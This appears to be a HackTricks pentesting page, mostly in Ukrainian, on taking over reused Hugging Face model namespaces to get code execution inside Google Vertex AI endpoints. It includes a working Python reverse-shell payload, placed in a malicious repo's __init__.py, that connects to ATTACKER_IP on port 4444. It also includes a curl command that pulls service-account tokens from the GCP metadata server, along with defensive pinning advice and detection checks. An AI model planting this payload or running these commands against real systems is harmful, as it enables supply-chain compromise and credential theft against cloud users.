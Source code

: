 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Сценарій

- Vertex AI Model Garden дозволяє безпосереднє розгортання багатьох Hugging Face (HF) моделей.
- HF ідентифікатори моделей мають формат Author/ModelName. Якщо автор/організація на HF видаляється, те саме ім'я автора може бути повторно зареєстроване будь-ким. Атакуючі можуть створити репозиторій з тим самим ModelName за тим самим старим шляхом.
- Пайплайни, SDKs або хмарні каталоги, які отримують модель лише за іменем (без pinning/integrity), завантажать репозиторій, контрольований атакуючим. Коли модель розгортається, код завантажувача з цього репозиторію може виконатися всередині контейнера кінцевої точки Vertex AI, що дає RCE з правами кінцевої точки.

Два поширені випадки takeover на HF:
- Ownership deletion: старий шлях повертає 404, поки хтось не зареєструє автора і не опублікує той самий ModelName.
- Ownership transfer: HF повертає 307 redirect з старого Author/ModelName до нового автора, поки старий автор існує. Якщо старий автор пізніше буде видалений і повторно зареєстрований атакуючим, ланцюжок редиректів буде порвано і репозиторій атакуючого обслуговуватиме застарілий шлях.

## Визначення повторно використовуваних просторів імен (HF)

- Старий автор видалений: сторінка автора повертає 404; шлях моделі може повертати 404, поки не відбудеться takeover.
- Передані моделі: старий шлях моделі повертає 307 до нового власника, поки старий автор існує. Якщо старий автор пізніше буде видалений і повторно зареєстрований, застарілий шлях буде вказувати на репозиторій атакуючого.

Швидкі перевірки за допомогою curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Повний сценарій атаки проти Vertex AI

1) Виявити повторно використовувані простори імен моделей, які Model Garden відображає як deployable:
- Знайти HF models у Vertex AI Model Garden, які досі показуються як “verified deployable”.
- Перевірити на HF, чи оригінальний автор видалений або чи модель була передана і старий автор пізніше видалений.

2) Повторно зареєструвати видаленого автора на HF та відтворити той самий ModelName.

3) Publish a malicious repo. Include code that executes on model load. Examples that commonly execute during HF model load:
- Побічні ефекти в __init__.py репо
- Custom modeling_*.py або processing code, на які посилається config/auto_map
- Code paths that require trust_remote_code=True in Transformers pipelines

4) A Vertex AI deployment of the legacy Author/ModelName now pulls the attacker repo. The loader executes inside the Vertex AI endpoint container.

5) Payload establishes access from the endpoint environment (RCE) with the endpoint’s permissions.

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Примітки
- Реальні loaders відрізняються. Багато інтеграцій Vertex AI HF клонує та імпортує модулі з repo, на які посилається конфіг моделі (наприклад, auto_map), що може спричинити виконання коду. Деякі випадки вимагають trust_remote_code=True.
- Зазвичай endpoint запускається в окремому контейнері з обмеженою сферою, але це дійсна початкова опора для доступу до даних та lateral movement у GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Once code is running inside the endpoint container, consider:
- Перелічити environment variables та metadata для credentials/tokens
- Отримати доступ до attached storage або змонтованих model artifacts
- Взаємодіяти з Google APIs через service account identity (Document AI, Storage, Pub/Sub, etc.)
- Persistence у model artifact якщо платформа re-pulls repo

Перелічте instance metadata, якщо доступно (залежить від контейнера):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Захисні рекомендації для користувачів Vertex AI

- Закріплюйте моделі за commit у HF loaders, щоб запобігти тихому заміщенню:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Зберігайте перевірені HF models у довіреному внутрішньому artifact store/registry і розгортайте їх звідти.
- Постійно скануйте репозиторії коду та конфіги на наявність жорстко закодованих Author/ModelName, які були видалені/перенесені; оновлюйте до нових namespaces або фіксуйте (pin) на коміті.
- У Model Garden перевіряйте походження моделі та існування автора перед розгортанням.

## Евристики виявлення (HTTP)

- Видалений автор: сторінка автора повертає 404; старий шлях до моделі повертає 404 до моменту takeover.
- Перенесена модель: старий шлях дає 307 на нового автора, поки старий автор існує; якщо старого автора згодом видалять і зареєструють заново, старий шлях може віддавати контент від атакуючого.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Перехресні посилання

- Див. ширшу методологію та зауваження щодо ланцюга постачання:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Посилання

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
